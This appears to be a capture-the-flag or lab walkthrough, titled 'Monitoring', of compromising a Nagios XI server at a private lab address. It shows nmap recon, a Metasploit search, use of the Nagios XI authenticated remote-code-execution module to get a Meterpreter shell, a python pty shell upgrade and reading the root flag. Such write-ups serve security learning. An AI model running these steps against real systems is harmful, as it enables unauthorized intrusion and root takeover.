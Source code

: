 *Monitoring*

**RECON**

---
**Ip Search** 
Investigating the IP shows Nagios XI  
![image1](https://user-images.githubusercontent.com/66635295/158923291-f9f3c79d-29cd-4356-abac-a06c8a23c1c8.png)
**Login Page** 
![image4](https://user-images.githubusercontent.com/66635295/158923386-5a962c6b-12a7-4478-8ac3-7a4a7dbbfb76.png)



**Nmap Scan**  
<pre>nmap -sC -sV -A 192.168.54.136 </pre>  
-safe scripts -service version -OS /version detection  
![image3](https://user-images.githubusercontent.com/66635295/158923500-63ccf817-750b-4cc0-b922-5fec2ac9aed3.png)

**Exploit Search**
<pre>msfconsole </pre>   
<pre>search nagios </pre>   
![image7](https://user-images.githubusercontent.com/66635295/158925208-7aaf44af-6018-45f6-9136-02605a2546df.png)

**Service Version**  
Provided Exploits did not work but reavel the service version   
![image6](https://user-images.githubusercontent.com/66635295/158925523-9ec073a8-fad8-47e2-a719-fd456de16bdd.png)    

**Google-Fu**
<pre>Nagios XI Remote Code Execution</pre>
Exploit allows for root access prior to 5.6.6 
![image9](https://user-images.githubusercontent.com/66635295/158937981-c3ba5722-8e10-46b4-b68f-35c2f105e32a.png)  
![image11](https://user-images.githubusercontent.com/66635295/158925803-ec6d2456-8095-4b7c-9e4b-b1cbced68f63.png)

**ENUMURATION**
---
**Exploit**
<pre>use exploit /linux/http/nagios_xi_autheticated_rce</pre>
Reveales it had been moved  
![image8](https://user-images.githubusercontent.com/66635295/158925989-31db1f9c-15ac-4db7-91c5-ec38690de593.png)

**Set Options and Run**  
Provides Meterpreter Shell    
![image5](https://user-images.githubusercontent.com/66635295/158926369-64c23ac5-0917-40e2-949a-1d92f7646f11.png)

**Privilege/Root Escalation**
---
**Switch to TTY Shell**
<pre>shell</pre>  
<pre>python -c ‘import pty;pty.spawn(“/bin/bash”)’</pre>  
![image10](https://user-images.githubusercontent.com/66635295/158926563-d75b3cd4-d4fe-431b-98f2-dc7574b39e2e.png)  
**Root Flag**  
<pre>cd /root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158926788-e02ea43c-383f-4516-8506-dfced0d5e020.png)

